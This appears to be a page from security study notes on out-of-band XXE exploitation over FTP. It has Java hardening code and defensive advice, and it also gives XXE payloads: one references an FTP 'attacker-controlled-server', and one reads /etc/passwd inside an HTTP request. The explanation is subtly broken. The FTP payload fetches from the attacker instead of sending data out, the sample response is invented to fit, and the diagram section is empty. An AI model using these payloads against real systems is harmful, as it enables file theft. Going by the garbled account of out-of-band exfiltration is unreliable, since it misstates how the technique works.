

## Introduction to Out-of-Band XXE Exploitation with FTP Protocol

### What is XXE?

XML External Entity (XXE) attacks occur when an application parses untrusted XML input without properly validating it. This allows an attacker to inject malicious XML entities that can lead to various security issues such as data exfiltration, denial of service, and remote code execution.

### Why Out-of-Band Exploitation?

Out-of-band (OOB) exploitation techniques are used when direct access to the target system is not possible due to network restrictions or other constraints. OOB techniques allow attackers to bypass these restrictions by using external protocols to exfiltrate data or perform other malicious actions.

### How Does FTP Fit In?

FTP (File Transfer Protocol) is a commonly used protocol for transferring files between systems. By leveraging FTP within an XXE attack, attackers can transfer sensitive data from the target system to an external server controlled by the attacker.

### Background Theory

#### XML Entities and DTDs

XML documents can contain entities, which are placeholders that can be replaced with actual content during parsing. An entity declaration looks like this:

```xml
<!ENTITY name "replacement text">
```

A Document Type Definition (DTD) is a set of rules that define the structure of an XML document. DTDs can include entity declarations, which can be used to reference external resources.

#### External Entities

External entities allow an XML parser to reference content from external sources. This is done using the `SYSTEM` keyword followed by a URI:

```xml
<!ENTITY name SYSTEM "http://example.com/resource">
```

When the XML parser encounters this entity, it attempts to fetch the resource from the specified URI and replace the entity with the fetched content.

### Building an XXE Payload with FTP

To exploit an XXE vulnerability using FTP, we need to construct an XML payload that includes an external entity referencing an FTP server. Here’s a step-by-step guide to building such a payload.

#### Step 1: Define the DTD

First, we define the DTD that includes the external entity. The entity will reference an FTP server where the attacker controls the server.

```xml
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "ftp://attacker-controlled-server/path/to/file">
]>
```

In this example, `attacker-controlled-server` is the FTP server controlled by the attacker, and `path/to/file` is the path to the file on the FTP server.

#### Step 2: Construct the XML Payload

Next, we construct the XML payload that uses the defined entity. The payload might look something like this:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "ftp://attacker-controlled-server/path/to/file">
]>
<root>&xxe;</root>
```

When the XML parser processes this payload, it will attempt to fetch the content from the FTP server and insert it into the XML document.

### Real-World Example: CVE-2021-3186

CVE-2021-3186 is a real-world example of an XXE vulnerability in the Apache Struts framework. This vulnerability allowed attackers to read arbitrary files from the server using an XXE attack.

#### Vulnerable Code

The vulnerable code in Apache Struts did not properly validate user-provided XML input, allowing attackers to inject malicious XML entities.

#### Exploit Payload

An attacker could craft an XML payload similar to the one described above to exploit this vulnerability. For example:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

This payload would cause the XML parser to read the `/etc/passwd` file from the server and insert its contents into the XML document.

### Full HTTP Request and Response

Here is a complete example of an HTTP request and response that demonstrates the XXE attack using FTP:

#### HTTP Request

```http
POST /api/v1/data HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 150

<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "ftp://attacker-controlled-server/path/to/file">
]>
<root>&xxe;</root>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: application/xml
Content-Length: 150

<?xml version="1.0"?>
<root>Contents of the file from the FTP server</root>
```

### Mermaid Diagram: Attack Flow



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Improper Input Validation**: Failing to validate user-provided XML input can lead to XXE vulnerabilities.
2. **Disabling External Entity Processing**: Many XML parsers provide options to disable external entity processing. Not enabling these options can leave systems vulnerable.
3. **Network Restrictions**: Relying solely on network restrictions to prevent XXE attacks is insufficient. Attackers can use OOB techniques to bypass these restrictions.

#### Detection

Detection of XXE vulnerabilities can be challenging, but there are several methods to identify them:

1. **Static Analysis**: Tools like SonarQube, Fortify, and Checkmarx can analyze code for potential XXE vulnerabilities.
2. **Dynamic Analysis**: Penetration testing tools like Burp Suite and OWASP ZAP can be used to test applications for XXE vulnerabilities.
3. **Logging and Monitoring**: Implementing logging and monitoring can help detect unusual activity that may indicate an XXE attack.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Validate User Input**: Always validate user-provided XML input to ensure it does not contain malicious entities.
2. **Disable External Entity Processing**: Configure XML parsers to disable external entity processing. For example, in Java, you can use the following configuration:

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    ```

#### Configuration Hardening

1. **Secure XML Parser Configuration**: Ensure that XML parsers are configured securely to prevent XXE attacks.
2. **Network Segmentation**: Segment networks to limit the ability of attackers to exfiltrate data using OOB techniques.

#### Secure Code Example

Here is an example of how to securely configure an XML parser in Java:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

#### Vulnerable vs. Secure Code

**Vulnerable Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

**Secure Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Hands-On Practice Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive challenges and labs for learning about XXE attacks.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills, including XXE.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities, including XXE.

These labs provide a safe environment to practice and understand XXE vulnerabilities and their exploitation techniques.

By thoroughly understanding the concepts, theory, and practical aspects of XXE attacks, you can better defend against these vulnerabilities and ensure the security of your applications.

---
<!-- nav -->
[[02-Introduction to Out-of-Band XML External Entity (XXE) Exploitation|Introduction to Out-of-Band XML External Entity (XXE) Exploitation]] | [[API Security/22-Offensive XXE Exploitation/10-Out of Band with FTP Protocol48 Out of Band with FTP Protocol/00-Overview|Overview]] | [[04-Introduction to XML External Entity (XXE) Attacks|Introduction to XML External Entity (XXE) Attacks]]
